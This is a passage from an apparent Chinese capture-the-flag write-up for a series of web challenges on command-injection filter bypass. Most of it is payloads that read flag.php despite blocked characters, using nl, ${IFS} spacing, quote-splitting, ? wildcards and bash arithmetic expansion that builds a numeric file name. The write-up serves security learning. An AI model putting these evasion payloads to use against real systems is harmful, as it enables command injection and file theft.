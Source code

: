 同上题

## web50

同上题

## web51

过滤tac，换成nl

    c=nl<fl''ag.php''

## web52

迷惑，过滤<又不过滤$了。

    c=nl${IFS}fla''g.php''

## web53

注意这个题不需要截断了。

    c=nl${IFS}fla''g.php

## web54

过滤了命令中间插入符号的形式，用通配符，还有&#42;被过滤了所以用?。

    c=/bin/ca?${IFS}f???????

## web55-56

移步[p神博客](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

## web57

过滤了很多，但是美元号和&#40;、)是没有过滤的
说实话俺很难看出来，但是题目也提示了flag是在36.php，是纯数字的，所以想到用$和()来构造数字。

    //看这个计算方法的时候，把上一行的整体带到下一行去看。
    echo $(()) // 结果是0
    echo $((~$(()))) //结果是-1 
    echo $(($((~$(())))$((~$(()))))) //结果是-2
    //然后又有：
    echo $((~-37)) //结果是36

就可以得到payload：

    $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
